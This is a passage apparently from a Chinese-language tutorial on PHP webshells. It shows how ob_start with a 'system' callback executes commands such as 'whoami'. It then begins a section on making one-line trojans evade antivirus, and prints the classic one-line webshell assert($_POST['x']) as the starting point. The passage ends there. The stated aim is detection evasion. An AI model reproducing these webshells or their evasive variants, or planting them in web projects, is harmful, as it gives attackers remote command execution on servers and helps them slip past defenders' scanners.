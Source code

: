 ### ob_start

ob_start函数是打开输出控制缓冲，传入的参数会在使用ob_end_flush函数的时候去调用它执行输出在缓冲区的东西。

```php
<?php
$cmd = 'system';
ob_start($cmd);
echo "whoami";
ob_end_flush();//输出全部内容到浏览器
```

![ob_start](ex_9.png)

## 编写免杀

上面说了那么多其实都是一句话木马的思路，每一种方式都可以写成一句话木马，而想要免杀常常会多种组合到一起，下面从最简单的木马一步步变形，达到免杀的目的。

```php
assert($_POST['x']);
```
